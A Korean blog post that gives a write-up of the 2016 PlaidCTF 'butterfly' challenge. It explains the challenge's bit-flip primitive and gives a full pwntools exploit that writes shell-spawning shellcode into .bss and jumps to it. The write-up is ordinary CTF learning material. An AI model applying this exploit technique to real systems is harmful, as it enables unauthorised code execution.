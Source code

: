 ```yaml
---
layout: post
title: "2016 PlaidCTF butterfly Write up"
excerpt: "bit flip을 이용한 참신한 문제"
date: 2020-05-25
categories: [system, ctf]
comments: true
---
```




연구실 과제를 하느라 ctf 문제풀이가 많이 밀렸다. 그래서 이번엔 전부터 풀어보고 싶었던 butterfly문제를 가져왔다. 뭔가 좀 참신한 느낌인 것 같다. 문제를 푸는데 다른 문제들보다 오래 걸린 것 같다.



binary :

![but1](/img/but1.png)

stack canary가 적용되어 있으며, amd64 아키텍처이다. (페이로드에서 이거 설정안해서 계속 못풀었다.)

main.c :

![but2](/img/but2.png)

코드를 보면 fgets로 50byte를 입력받고, strtol함수로 정수값으로 전환 > shift 연산자를 이용해서 v4의 마지막 3비트가 right shift된다. 
그리고 mprotect가 있는데 처음에는 v7의 권한을 rwx로 주었다가 이후엔 r-x로 바꾼다. 

exploit vector : 

![but3](/img/but3.png)

이 부분이 중요한 것 같다. 에필로그 부분인데 +216에서 add rsp,0x48을 수정하면 ret를 가지고 놀 것  같다. 

exploit :

```python
from pwn import *
 
context(arch="amd64")

p = process("./butterfly")
e = ELF("./butterfly")

tar_addr = 0x400860 + 3
tmp = (tar_addr << 3) + 6

p.sendline(str(tmp).ljust(40) + p64(e.symbols['main']))

def first(addr,data):
    for i in range(8):
        if data & (1 << i):
            tmp = (addr << 3) + i
            p.recvuntil("THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?\n")
            p.sendline(str(tmp).ljust(40) + p64(e.symbols['main']))
 
def write(where,pay):
    for a,b in enumerate(pay):
	first(where + a, u8(b))
 
write(e.bss(100),asm(shellcraft.sh()))

p.recvuntil("THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?\n")
p.sendline(str(e.bss(99) << 3).ljust(40) + p64(e.bss(100)))

p.clean()

p.interactive()

```

문제를 풀고나서 여러가지 풀이들을 봤는데 _libc_csu_init을 이용한 풀이도 재미있을 것 같다. 다시 한번 복습해볼만한 문제였던 것 같다. (난 아직 초보라 다시 봐야한다.)
